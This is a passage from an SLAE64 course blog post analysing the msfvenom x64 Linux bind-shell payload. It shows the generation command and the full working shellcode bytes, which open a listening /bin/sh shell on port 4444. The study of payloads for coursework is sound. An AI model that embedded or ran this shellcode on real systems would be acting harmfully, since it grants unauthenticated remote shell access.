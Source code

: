 ```yaml
---
title: SLAE64 Assignment 5 - MSFVenom Bind Shell Analysis
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the fifth assignment of the SLAE64, I analyzed three payloads from msfvenom. This is the third payload, `linux/x64/shell_bind_tcp`.

# Bind Shell Anaylsis
We will be analyzing the msfvenom non-staged bind shell payload. 

## Generating the MSFVenom Payload
Here we generate the payload on Kali Linux and output it to the C format. This allows us to easy add it to our host shellcode.c program.
```bash
root# msfvenom -v shellcode -f c -p linux/x64/shell_bind_tcp
Payload size: 86 bytes
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
```
